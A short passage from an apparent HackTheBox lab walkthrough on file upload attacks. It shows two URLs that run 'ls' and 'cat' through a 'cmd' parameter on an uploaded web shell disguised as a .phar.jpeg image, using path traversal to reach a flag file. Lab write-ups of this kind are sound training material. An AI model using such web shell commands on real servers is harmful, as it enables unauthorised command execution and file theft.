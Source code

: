 <div style="text-align: justify">27. With the information of the path where the images are located and the name format they have, execute the url with the "cmd" parameter so that it executes an "ls" command in the root. We see a text file with the name of "flag_xxxx.txt".</div>

```
http://IP:PORT/contact/user_feedback_submissions/YYMMDD_shell.phar.jpeg?cmd=ls ../../../../../
```
![image-center](\assets\images\HTB_File_Upload_Attacks\Q8\28.png)

<div style="text-align: justify">28. Execute the url with the "cmd" parameter so that it executes an "cat" command to the file "flag_xxxx.txt" and we get de flag.</div>

```
http://IP:PORT/contact/user_feedback_submissions/YYMMDD_shell.phar.jpeg?cmd=cat ../../../../../flag_xxxx.txt
```
![image-center](\assets\images\HTB_File_Upload_Attacks\Q8\29.png)







